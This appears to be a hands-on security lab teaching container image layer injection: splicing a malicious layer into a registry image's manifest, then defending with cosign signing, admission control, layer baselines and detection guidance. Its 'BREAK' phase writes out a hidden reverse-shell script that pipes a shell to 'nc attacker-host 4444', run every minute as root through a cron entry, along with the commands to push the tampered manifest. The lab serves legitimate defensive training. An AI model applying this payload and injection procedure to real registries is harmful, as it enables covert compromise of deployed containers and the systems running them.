

# Lab 3.5: Layer Injection

<div class="lab-meta">
  <span>~25 min hands-on | ~10 min reference</span>
  <span class="difficulty advanced">Advanced</span>
  <span>Prerequisites: <a href="3.1-image-internals.md">Lab 3.1</a></span>
</div>

An attacker who can write to a registry can splice an additional layer into an existing image's manifest. The tag stays the same, the original application still works, but the extra layer drops a reverse shell into the filesystem. `docker pull` does not complain about extra layers. Without image signing, nothing detects the injection short of comparing layer digests against a known-good baseline.

---

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| OCI Registry | `registry:5000` | Local registry with pre-loaded images |
| Attacker Registry | `attacker-registry:5000` | Staging area for crafting malicious images |
| Workstation | Pod with docker CLI, crane, cosign, jq | Your working environment |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. How Layers Compose Into a Filesystem"

### Step 1: Inspect the target image

```bash
crane manifest registry:5000/webapp:latest | jq .
```

Each layer digest is a SHA-256 hash of a gzipped tarball. The runtime unpacks them in order, each overlaying the previous.

### Step 2: Record the baseline

```bash
LAYER_COUNT=$(crane manifest registry:5000/webapp:latest | jq '.layers | length')
MANIFEST_DIGEST=$(crane digest registry:5000/webapp:latest)
echo "Baseline: $LAYER_COUNT layers, manifest digest $MANIFEST_DIGEST"
```

### Step 3: Examine a single layer

```bash
crane blob registry:5000/webapp@$(crane manifest registry:5000/webapp:latest | jq -r '.layers[0].digest') | tar tz | head -30
```

Each layer is an independent tarball. Adding one more to the manifest's `layers` array injects arbitrary files.

### Step 4: Verify the image runs clean

```bash
docker pull registry:5000/webapp:latest
docker run --rm registry:5000/webapp:latest
```

---

???+ warning "Phase 2: BREAK. Inject a Malicious Layer"

### Step 1: Create the malicious layer

```bash
mkdir -p /tmp/inject/usr/local/bin
cat > /tmp/inject/usr/local/bin/.hidden-shell << 'PAYLOAD'
#!/bin/sh
# Simulated reverse shell
while true; do
  sh -i 2>&1 | nc attacker-host 4444 > /dev/null 2>&1
  sleep 60
done
PAYLOAD
chmod +x /tmp/inject/usr/local/bin/.hidden-shell

mkdir -p /tmp/inject/etc/cron.d
echo "* * * * * root /usr/local/bin/.hidden-shell" > /tmp/inject/etc/cron.d/update
```

### Step 2: Package it as an OCI layer

```bash
cd /tmp/inject
tar czf /tmp/malicious-layer.tar.gz .
LAYER_DIGEST=$(sha256sum /tmp/malicious-layer.tar.gz | awk '{print "sha256:"$1}')
LAYER_SIZE=$(stat -c %s /tmp/malicious-layer.tar.gz 2>/dev/null || stat -f %z /tmp/malicious-layer.tar.gz)
echo "Layer digest: $LAYER_DIGEST"
echo "Layer size: $LAYER_SIZE"
```

### Step 3: Push the blob to the registry

```bash
crane blob upload registry:5000/webapp /tmp/malicious-layer.tar.gz
```

### Step 4: Patch the manifest

The blob must be uploaded to the registry before you can reference its digest in a manifest. If you patch the manifest first, the registry will reject it because the referenced layer does not exist yet.

```bash
crane manifest registry:5000/webapp:latest > /tmp/original-manifest.json

cat /tmp/original-manifest.json | jq --arg digest "$LAYER_DIGEST" --argjson size "$LAYER_SIZE" \
  '.layers += [{"mediaType": "application/vnd.oci.image.layer.v1.tar+gzip", "digest": $digest, "size": $size}]' \
  > /tmp/injected-manifest.json

echo "Original layers: $(jq '.layers | length' /tmp/original-manifest.json)"
echo "Injected layers: $(jq '.layers | length' /tmp/injected-manifest.json)"
```

### Step 5: Push the modified manifest

```bash
crane manifest push /tmp/injected-manifest.json registry:5000/webapp:latest
```

The tag now points to the injected image.

### Step 6: Confirm the injection

```bash
docker pull registry:5000/webapp:latest
docker run --rm --entrypoint cat registry:5000/webapp:latest /usr/local/bin/.hidden-shell
```

The reverse shell is in the image. The original application still runs. The injected layer only adds files, so nothing breaks.

### Step 7: Compare against baseline

```bash
NEW_COUNT=$(crane manifest registry:5000/webapp:latest | jq '.layers | length')
NEW_DIGEST=$(crane digest registry:5000/webapp:latest)
echo "Before: $LAYER_COUNT layers, digest $MANIFEST_DIGEST"
echo "After:  $NEW_COUNT layers, digest $NEW_DIGEST"
```

Layer count increased by one, manifest digest changed. If nobody recorded the originals, nobody notices.

---

???+ success "Phase 3: DEFEND. Signing, Verification, and Layer Baselines"

### Defense 1: Sign images with cosign

```bash
cosign generate-key-pair

cosign sign --key cosign.key registry:5000/webapp@$MANIFEST_DIGEST
```

Any change to the manifest (including adding a layer) invalidates the signature.

### Defense 2: Verify before deployment

```bash
# Should succeed for the original
cosign verify --key cosign.pub registry:5000/webapp@$MANIFEST_DIGEST

# Should FAIL for the injected image
cosign verify --key cosign.pub registry:5000/webapp@$NEW_DIGEST
```

### Defense 3: Enforce in Kubernetes with admission control

```yaml
apiVersion: policy.sigstore.dev/v1alpha1
kind: ClusterImagePolicy
metadata:
  name: require-cosign-signature
spec:
  images:
    - glob: "registry:5000/**"
  authorities:
    - key:
        data: |
          -----BEGIN PUBLIC KEY-----
          <your cosign.pub contents>
          -----END PUBLIC KEY-----
```

Unsigned or modified images are rejected at admission time.

### Defense 4: Record layer baselines in CI

```bash
crane manifest registry:5000/webapp:latest | jq -r '.layers[].digest' > /app/layer-baseline.txt
cat /app/layer-baseline.txt
```

Store alongside build artifacts. Any drift means tampering.

### Step 5: Verify the lab

```bash
weaklink verify 3.5
```

---

??? danger "Phase 4: DETECT. Catching Layer Injection in Production"

The primary signal is **manifest digest change without a corresponding CI build**, or **layer count exceeding the expected baseline**.

**Indicators:**

- Registry `PUT /v2/<repo>/manifests/<tag>` from non-CI IP or identity
- Layer count differs from Dockerfile instruction count plus base image layers
- Signature verification failures during admission control
- Manifest digest for a tag changing outside a CI pipeline run

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Implant Internal Image** | [T1525](https://attack.mitre.org/techniques/T1525/) | Malicious layer injected into trusted image in registry |
| **Command and Scripting Interpreter** | [T1059](https://attack.mitre.org/techniques/T1059/) | Injected layer contains executable reverse shell |

---

??? tip "SOC Relevance"

    **Alert:** "Container image manifest modified outside CI pipeline" or "Image signature verification failed"

    Layer injection is hard to spot without baselines. The tag does not change, the application still runs, and `docker inspect` shows nothing obviously wrong.

    **Triage steps:**

    1. Compare current manifest digest against last known-good from CI
    2. Count layers and compare against Dockerfile instruction count plus base image layers
    3. Extract each layer with `crane blob` and inspect contents
    4. Check registry audit logs for who pushed and when
    5. If signed, run `cosign verify`. Failure confirms tampering
    6. Quarantine, roll back to last signed digest, investigate registry access

---

??? example "CI Integration"

    **`.github/workflows/layer-injection-guard.yml`:**

    ```yaml
    name: Layer Injection Guard

    on:
      push:
        paths:
          - "Dockerfile*"
      schedule:
        - cron: "0 */6 * * *"

    jobs:
      build-and-sign:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4

          - name: Install tools
            run: |
              curl -sL https://github.com/google/go-containerregistry/releases/latest/download/go-containerregistry_Linux_x86_64.tar.gz \
                | tar xz crane
              sudo mv crane /usr/local/bin/
              curl -sL https://github.com/sigstore/cosign/releases/latest/download/cosign-linux-amd64 -o /usr/local/bin/cosign
              chmod +x /usr/local/bin/cosign

          - name: Build and push
            run: |
              docker build -t ${{ vars.REGISTRY }}/webapp:${{ github.sha }} .
              docker push ${{ vars.REGISTRY }}/webapp:${{ github.sha }}

          - name: Sign the image
            env:
              COSIGN_KEY: ${{ secrets.COSIGN_PRIVATE_KEY }}
              COSIGN_PASSWORD: ${{ secrets.COSIGN_PASSWORD }}
            run: |
              DIGEST=$(crane digest ${{ vars.REGISTRY }}/webapp:${{ github.sha }})
              cosign sign --key env://COSIGN_KEY ${{ vars.REGISTRY }}/webapp@$DIGEST

          - name: Record layer baseline
            run: |
              crane manifest ${{ vars.REGISTRY }}/webapp:${{ github.sha }} \
                | jq -r '.layers[].digest' > layer-baseline.txt
              echo "Layer count: $(wc -l < layer-baseline.txt)"

          - name: Upload baseline
            uses: actions/upload-artifact@v4
            with:
              name: layer-baseline
              path: layer-baseline.txt
    ```

---

## What You Learned

- **Layer injection requires only registry write access.** No build step needed. Attacker patches the manifest JSON and pushes a blob.
- **Unsigned images have no tamper protection.** Without cosign or notation, nothing ties the manifest to a trusted build.
- **Admission control is the enforcement point.** Signing means nothing if the cluster does not verify at deploy time.

## Further Reading

- [cosign: Signing OCI containers](https://github.com/sigstore/cosign)
- [Notation (CNCF Notary Project)](https://notaryproject.dev/)
- [OCI Distribution Specification](https://github.com/opencontainers/distribution-spec/blob/main/spec.md)
